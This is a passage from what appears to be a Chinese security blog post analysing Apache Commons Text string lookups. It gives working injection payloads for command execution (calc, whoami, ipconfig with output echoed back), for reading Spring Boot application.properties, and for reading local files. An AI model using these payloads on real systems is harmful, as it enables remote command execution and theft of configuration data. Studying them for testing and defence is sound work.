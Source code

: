 下面就举出几个常用的 lookup class 来分析一下

### ScriptStringLookup

很简单的利用 ScriptEngineManager 来执行命令, 上面已经分析过了

![image-20230107152440601](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071524699.png)

常规的弹计算器

```java
${script:js:java.lang.Runtime.getRuntime().exec("calc")}
```

结合 Scanner 或者 BufferedReader 实现回显

```java
${script:js:new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.ProcessBuilder("whoami").start().getInputStream(), "GBK")).readLine()} // 只能读取一行

${script:js:new java.util.Scanner(new java.lang.ProcessBuilder("ipconfig").start().getInputStream(), "GBK").useDelimiter("xzxzxz").next()}
```

注意类名要写全 (包括 `java.lang`)

### ResourceBundleStringLookup

ResourceBundle 的利用方式最初是在浅蓝师傅的这篇文章中学到的

[https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg](https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg)

利用它可以读取 classpath 下的 `.properties` 配置文件, 无需知道绝对路径

一个很经典的例子就是 springboot 的 `application.properties` 文件

```java
${resourcebundle:application:user.name}
```

![image-20230107153145960](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071531064.png)

### FileStringLookup

读取文件

需要指定 charsetname

![image-20230107153614916](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071536990.png)

```java
${file:utf-8:d:/test.txt}
```

![image-20230107153722041](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071537153.png)

### UrlStringLookup
